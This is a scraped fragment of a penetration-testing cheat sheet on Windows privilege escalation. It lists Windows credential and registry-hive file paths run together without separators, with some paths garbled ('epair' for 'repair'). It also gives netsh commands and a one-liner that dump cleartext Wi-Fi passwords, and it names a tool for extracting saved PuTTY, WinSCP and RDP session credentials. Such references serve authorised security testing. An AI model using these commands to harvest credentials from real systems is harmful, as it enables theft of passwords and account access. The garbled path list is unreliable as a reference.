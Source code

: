 %SYSTEMDRIVE%\pagefile.sys%WINDIR%\debug\NetSetup.log%WINDIR%epair\sam%WINDIR%epair\system%WINDIR%epair\software, %WINDIR%epair\security%WINDIR%\iis6.log%WINDIR%\system32\config\AppEvent.Evt%WINDIR%\system32\config\SecEvent.Evt%WINDIR%\system32\config\default.sav%WINDIR%\system32\config\security.sav%WINDIR%\system32\config\software.sav%WINDIR%\system32\config\system.sav%WINDIR%\system32\CCM\logs\*.log%USERPROFILE%\ntuser.dat%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat%WINDIR%\System32\drivers\etc\hostsdir c:*vnc.ini /s /bdir c:*ultravnc.ini /s /b

### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='54'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1552' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#wifi-passwords)Wifi passwords

Find AP SSID
netsh wlan show profile
Get Cleartext Pass
netsh wlan show profile <SSID> key=clear
Oneliner method to extract wifi passwords from all the access point.

cls  &  echo. &  for /f "tokens=4 delims=: "  %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear |  findstr  "SSID Cipher Content"  |  find /v "Number"  &  echo.) &  @echo  on

### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='55'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1589' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#passwords-stored-in-services)Passwords stored in services

Saved session information for PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP using [SessionGopher](https://github.com/Arvanaghi/SessionGopher)
